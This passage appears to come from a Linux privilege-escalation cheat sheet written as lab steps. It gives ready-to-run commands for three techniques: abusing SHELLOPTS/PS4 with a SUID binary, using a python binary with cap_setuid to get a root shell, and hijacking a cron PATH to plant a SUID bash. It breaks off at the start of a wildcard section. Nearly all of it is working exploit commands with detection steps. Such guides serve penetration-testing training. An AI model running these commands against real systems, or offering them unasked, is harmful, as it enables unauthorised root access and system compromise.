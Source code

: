 ## Exploitation Method #2

**Target box**

1. In command prompt type:
`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'`

# 13. Privilage Escalation - Capabilities
## Detection

**Target box**

1. In command prompt type: `getcap -r / 2>/dev/null`
2. From the output, notice the value of the “cap_setuid” capability.

## Exploitation

**Target box**

1. In command prompt type:
`/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
2. Enjoy root!

# 14. Privilage Escalation - Cron (Path) 
## Detection

**Target box**

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the value of the “PATH” variable.

## Exploitation

**Target box**

1. In command prompt type:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
2. In command prompt type: `chmod +x /home/user/overwrite.sh`
3. Wait 1 minute for the Bash script to execute.
4. In command prompt type: `/tmp/bash -p`
5. In command prompt type: `id`

# 15. Privilage Escalation - Corn (Wildcards) 
## Detection

**Target box**
